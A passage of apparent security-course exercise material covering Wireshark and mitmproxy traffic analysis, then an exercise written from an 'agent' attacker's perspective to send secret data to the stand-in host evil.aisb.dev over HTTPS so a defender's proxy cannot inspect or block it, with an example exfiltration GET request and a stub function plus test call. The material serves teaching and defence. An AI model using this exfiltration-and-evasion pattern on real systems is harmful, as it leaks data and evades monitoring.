 1. **Network Analysis**: How to use Wireshark to capture and analyze network traffic
2. **Protocol Layers**: How HTTP rides on top of TCP/IP
3. **Traffic Interception**: Using mitmproxy to intercept and block requests
4. **Security Monitoring**: Building analytics to track blocked threats

**Additional Resources**:

- [Wireshark User Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
- [mitmproxy Documentation](https://docs.mitmproxy.org/stable/)
- [Wikpedia proxy server](https://en.wikipedia.org/wiki/Proxy_server)



## 3️⃣ HTTPS Interception, Certificate Management and Trust
### Encrypting traffic with HTTPS
Let's switch to the agent's perspective now and implement a way to exfiltrate data securely using HTTPS - this will stop our proxy from being able to block requests, and ensure the communication is encrypted.

In the previous exercises, the defender could easily inspect your HTTP traffic using Wireshark and see exactly what data you were exfiltrating. The communication looked something like this in Wireshark:

```
GET /exfiltrate?data=some_secret_data HTTP/1.1
Host: evil.aisb.dev
User-Agent: python-requests/2.32.4
...
```

To evade this detection, we can switch to HTTPS, which encrypts the communication channel.

<details><summary>Background: How HTTPS Protects Communication</summary></details>

### Exercise 4: Implement make_evil_request_https()

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪
>
> You should spend up to ~5 minutes on this exercise.

Modify your request function to use HTTPS instead of HTTP. This simulates an attacker trying to evade network inspection. The code below belongs in the **`w1d2_answers_agent.py`** file.


```python


def make_evil_request_https(secret_data: str) -> Optional[str]:
    """
    Send a GET request over HTTPS to evil.aisb.dev with secret data.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Make a GET request to https://evil.aisb.dev/exfiltrate?data=secret_data
    #   2. Return the response text if successful (status 200), None otherwise
    pass
from w1d2_test import test_make_evil_request_https
test_make_evil_request_https(make_evil_request_https)


# Update the exfiltrate_data function to use HTTPS
exfiltrate_data = make_evil_request_https
```